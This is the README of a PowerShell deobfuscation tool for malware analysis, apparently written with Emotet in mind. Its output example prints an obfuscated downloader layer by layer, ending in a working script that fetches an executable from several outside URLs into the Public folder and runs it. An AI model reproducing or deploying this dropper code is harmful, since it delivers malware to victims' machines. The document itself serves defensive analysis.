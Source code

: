# PSDecode
This is a PowerShell script for deobfuscating other encoded PowerShell scripts. Often, malicious PowerShell scripts have several layers of encodings  (Replace, Base64Decode, etc...) that, once decoded, are executed via a call to Invoke-Expression (IEX, &, .), Invoke-Command, etc... This script employs a technique called method overriding that enables us to essentially intercept calls to functions that I have accounted for within this script and print out the arguments being passed to it (a.k.a what the script was trying to execute).

** Important Note #1: Only run this script within an isolated sandbox. If the encoded powershell attempts to execute a function which I have not accounted for, there is a chance it could execute**

** Important Note #2: The default execution policy for PowerShell is Restricted and if you dont use PowerShell a lot, chances are when you go to run this script, it will give you an error stating "PSDecode cannot be loaded because the execution of scripts is disabled on this system". If you receive this message, you'll need to change you execution policy to Unrestricted either temporarility or permanantly. The simplest way is to open a PowerShell command prompt as Administrator and run: set-executionpolicy unrestricted**

# To Use
1. Copy PSDecode.psm1 into $PSHome\Modules\
2. Open a new instance of PowerShell
3. Option #1 [Pass encoded PowerShell via File]:
<pre> > PSDecode .\encoded_ps.ps1 </pre>
4. Option #2 [Pass encoded PowerShell via PIPE]:
<pre> > Get-Content .\encoded_ps.ps1 | PSDecode </pre>

# Output Example
```PowerShell
############################## Layer 1 ##############################
&( $vERBOSEprefeRENCE.TOstRInG()[1,3]+'x'-jOiN'')(('. ((VAriAble rAb*m'+'DR*rAb)'+'.namE[3,11,'+'2]-joiNrAbrAb) ( (rAb ((8mrAb+rAb6o4Vfranc r'+'Ab+rAb8m6+8m6=rAb+rAb new-8m6'+'+8m6obj8m6+8m6ec
rAb+rAbt SysrAb+rAbt8m6+8m6em.Ne'+'t'+'.We8m6rAb+rAb+8m6bCli8m6+8m6enrAb+rAbt8rAb+rAbm6+8m6;8m6+8m6o4Vnsa8m6+8m6dasd 8m6+'+'8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'rAb+rAb8mrAb+rAb6random;
o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6'+'-8m6+8m6soft.pl/w8m6+8m6ef3rAb+rAb8m6+8m64668m6+8m6'+'48m6+8rAb+rAbm658m6+8m6,htt8m6+8mrAb+rAb6p8m6+8m6:rAb+rAb8m6+8
m6/'+'8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/wrAb+rAb8m6'+'+8m6efrAb+rAb348m6+8m666458m'+'6+8m6,htt8m6+8mrAb+rAb6prAb+rAb://8m6+'+'8m6truhlarstvi-be8m6+8m6'+'zd8m6+8m'+'6eka8m6+
8rAb+rA'+'bm6.c8m6+8rAb+rAbm6z/wef346645,h8m6+8m6ttrAb+rAb8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8mrAb+rAb6+8m6lit(H8m6+8m6a6,H8rAb+rAbm6+8m6a6'+')8m6
+8rAb+r'+'Abm6;8m6+8m6o4V8m6+8m6kara8m6+8m6pas = o8m6+8m64'+'Vns8m6+8m6adasd.next(18m6+8m6,rAb+rA'+'b 38m6+8m6rAb+rAb43248m6+8m658m6+8mrAb+rAb6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6rAb+r
Ab+8m6 Ha61U8m6+8m6nH'+'8m6'+'+8m6a6 +rAb+rAb o48m6+8m6Vkar'+'8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha'+'8m6+8m668m6+8m6;8m6rAb+rAb+8m6for8m6+8m6ea'+'c8m6+8m6h(o8m6+8m64VrAb+rAbab8m6+8m6c 
in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){'+'8m6+8m6try{o48m6+8m6'+'V8m6+8m6f8m6+8m6r8m6'+'+8m6a8m6+8m6n8m'+'6r'+'Ab+rAb+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8rAb+rAbm6c8m6+8m6.TrAb+rAboSt8m6+8m6r8m
6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+'+'8m6br8m6+8m6eak;}catch8m6'+'+8m6{wrrAb'+'+rAb8m6+'+'8m6i8m6+8m6te8m6+8m6-host'+' rAb+rAbo48rAb+rAbm6'+'+8m6V
_.Ex8m6+8m6c'+'e8m6+8m6pt8'+'m6+8rAb+rAbm6ion8m6'+'+8m6.MrAb+rAb8m6+8m6es8m6+8mrAb+rAb6rAb+'+'rAbsa8m6+8m6g8m6+8m'+'6e;}}8'+'m6'+')-CREpLACE 8m61Un8m6'+','+'[chaR]92 -CrA'+'b'+'+rAbREprAb+rAbL
ACE([chaR]111+[chaR]52+[chaR]86)'+',[cha'+'R]36 -CR'+'EpLACE ([chrAb+rAbaR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe rAb+rAb8m6*MDR*8m6).Name[3,11,2]'+'-JoIn8m68m6)rAb).rEpLA'+'Ce(([
'+'c'+'har]5'+'6+[char]109+[c'+'har]54),[StRiNG][char]39).rE'+'pLAC'+'e(rAbf5BrAb,[StRiNG][char]124) ) ').rEPLAcE('rAb',[StRING][ChAr]39) )


############################## Layer 2 ##############################
. ((VAriAble '*mDR*').namE[3,11,2]-joiN'') ( (' ((8m'+'6o4Vfranc '+'8m6+8m6='+' new-8m6+8m6obj8m6+8m6ec'+'t Sys'+'t8m6+8m6em.Net.We8m6'+'+8m6bCli8m6+8m6en'+'t8'+'m6+8m6;8m6+8m6o4Vnsa8m6+8m6das
d 8m6+8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'8m'+'6random;o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6-8m6+8m6soft.pl/w8m6+8m6ef3'+'8m6+8m64668m6+8m648m6+8'+'
m658m6+8m6,htt8m6+8m'+'6p8m6+8m6:'+'8m6+8m6/8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/w'+'8m6+8m6ef'+'348m6+8m666458m6+8m6,htt8m6+8m'+'6p'+'://8m6+8m6truhlarstvi-be8m6+8m6zd8m6+8m6
eka8m6+8'+'m6.c8m6+8'+'m6z/wef346645,h8m6+8m6tt'+'8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8m'+'6+8m6lit(H8m6+8m6a6,H8'+'m6+8m6a6)8m6+8'+'m6;8m6+8m6o4V8
m6+8m6kara8m6+8m6pas = o8m6+8m64Vns8m6+8m6adasd.next(18m6+8m6,'+' 38m6+8m6'+'43248m6+8m658m6+8m'+'6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6'+'+8m6 Ha61U8m6+8m6nH8m6+8m6a6 +'+' o48m6+8m6Vka
r8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha8m6+8m668m6+8m6;8m6'+'+8m6for8m6+8m6eac8m6+8m6h(o8m6+8m64V'+'ab8m6+8m6c in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){8m6+8m6try{o48m6+8m6V8m6+8m6f8m6+8m6
r8m6+8m6a8m6+8m6n8m6'+'+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8'+'m6c8m6+8m6.T'+'oSt8m6+8m6r8m6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+8m6br8m6+8m6eak;}catc
h8m6+8m6{wr'+'8m6+8m6i8m6+8m6te8m6+8m6-host '+'o48'+'m6+8m6V_.Ex8m6+8m6ce8m6+8m6pt8m6+8'+'m6ion8m6+8m6.M'+'8m6+8m6es8m6+8m'+'6'+'sa8m6+8m6g8m6+8m6e;}}8m6)-CREpLACE 8m61Un8m6,[chaR]92 -C'+'REp'
+'LACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([ch'+'aR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe '+'8m6*MDR*8m6).Name[3,11,2]-JoIn8m68m6)').rEpLACe(([char]56+[char]109+[cha
r]54),[StRiNG][char]39).rEpLACe('f5B',[StRiNG][char]124) ) 


############################## Layer 3 ##############################
 (('o4Vfranc '+'= new-'+'obj'+'ect Syst'+'em.Net.We'+'bCli'+'ent'+';'+'o4Vnsa'+'dasd '+'= n'+'e'+'w-'+'object '+'random;o4Vb'+'c'+'d = Ha6ht'+'t'+'p:'+'//s'+'mart'+'-'+'soft.pl/w'+'ef3'+'466'+
'4'+'5'+',htt'+'p'+':'+'/'+'/chimach'+'i'+'n'+'eno'+'w.com/w'+'ef34'+'6645'+',htt'+'p://'+'truhlarstvi-be'+'zd'+'eka'+'.c'+'z/wef346645,h'+'tt'+'p'+'://'+'er'+'icajoy.co'+'m/'+'wef346'+'645Ha6
.Sp'+'lit(H'+'a6,H'+'a6)'+';'+'o4V'+'kara'+'pas = o'+'4Vns'+'adasd.next(1'+', 3'+'4324'+'5'+');o4Vhuas = o4Ve'+'nv:p'+'ublic +'+' Ha61U'+'nH'+'a6 + o4'+'Vkar'+'apas '+'+ Ha6.e'+'xe'+'Ha'+'6'+'
;'+'for'+'eac'+'h(o'+'4Vab'+'c in '+'o4'+'Vb'+'c'+'d){'+'try{o4'+'V'+'f'+'r'+'a'+'n'+'c.Downlo'+'adFile(o4Vab'+'c'+'.ToSt'+'r'+'in'+'g('+')'+', o4'+'Vhua'+'s);Invoke-Item(o4Vhuas);'+'br'+'eak;
}catch'+'{wr'+'i'+'te'+'-host o4'+'V_.Ex'+'ce'+'pt'+'ion'+'.M'+'es'+'sa'+'g'+'e;}}')-CREpLACE '1Un',[chaR]92 -CREpLACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([chaR]72+[chaR]97+[chaR]
54),[chaR]39) | &((GeT-VaRIAbLe '*MDR*').Name[3,11,2]-JoIn'')


############################## Layer 4 ##############################
$franc = new-object System.Net.WebClient;$nsadasd = new-object random;$bcd = 'http://smart-soft.pl/wef346645,http://chimachinenow.com/wef346645,http://truhlarstvi-bezdeka.cz/wef346645,http://e
ricajoy.com/wef346645'.Split(',');$karapas = $nsadasd.next(1, 343245);$huas = $env:public + '\' + $karapas + '.exe';foreach($abc in $bcd){try{$franc.DownloadFile($abc.ToString(), $huas);Invoke
-Item($huas);break;}catch{write-host $_.Exception.Message;}}


############################## Actions ##############################
1. [System.Random] Generate random integer between 1 and 343245 . Value returned: 92672
2. [System.Net.WebClient.DownloadFile] Download from: http://smart-soft.pl/wef346645
3. [System.Net.WebClient.DownloadFile] Save downloaded file to: C:\Users\Public\92672.exe
4. [Invoke-Item] Execute/Open: C:\Users\Public\92672.exe
```
# Change Log
* 2018.05.30
  * Added better handling of double quotes during script building to eliminate hard failure.
  * Implemented replace function to replace the string concatenation '+' that could be found within a malicious script with an empty string. Eliminates simple obfuscation in layer output.
* 2018.03.20 - updated script to account for changes made to newest version of Emotet's encoding scheme
